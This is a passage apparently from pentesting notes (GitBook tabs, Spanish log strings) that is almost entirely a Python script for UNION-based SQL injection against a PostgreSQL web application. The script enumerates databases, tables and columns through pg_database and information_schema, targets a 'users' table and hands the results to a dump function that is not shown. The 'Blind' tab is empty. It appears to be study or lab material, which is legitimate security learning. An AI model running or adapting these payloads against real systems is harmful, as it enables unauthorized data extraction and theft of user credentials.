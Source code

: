 ```python
    r = requests.get(url=url+vulnerable_field+sqli_columns)
    columns = re.findall("<th>(.*)</th>", r.text)
    for i in columns:
        pwn.log.info(f"Columns -> {i}")
    p1.success("Columnas encontradas")
    dump_info(database, columns, table)

def search_tables(databases):
    p1 = pwn.log.progress("Search Tables")
    database = databases[2]
    sqli_tables = f"""' UNION SELECT table_name,NULL FROM information_schema.tables,pg_database WHERE datname='{database}'-- -"""
    p1.status(f"Payload -> {sqli_tables}")
    r = requests.get(url=url+vulnerable_field+sqli_tables)
    tables = re.findall("<th>(.*)</th>", r.text)
    for i in tables:
        if i == "users":
            table = i
            break
    p1.success("Tablas encontradas")
    search_columns(database, table)

def allDatabases():
    p1 = pwn.log.progress("Search Databases")
    sqli = """1' UNION SELECT datname,NULL FROM pg_database-- -"""
    p1.status(f"Payload -> {sqli}")
    r = requests.get(url=url+vulnerable_field+sqli)
    databases = re.findall("<th>(.*)</th>", r.text)
    for i in databases:
        pwn.log.info(f"Database -> {i}")
    p1.success("Bases de datos encontradas")
    search_tables(databases)

if __name__ == "__main__":
    allDatabases()
```
{% endtab %}

{% tab title="Blind" %}

{% endtab %}
{% endtabs %}
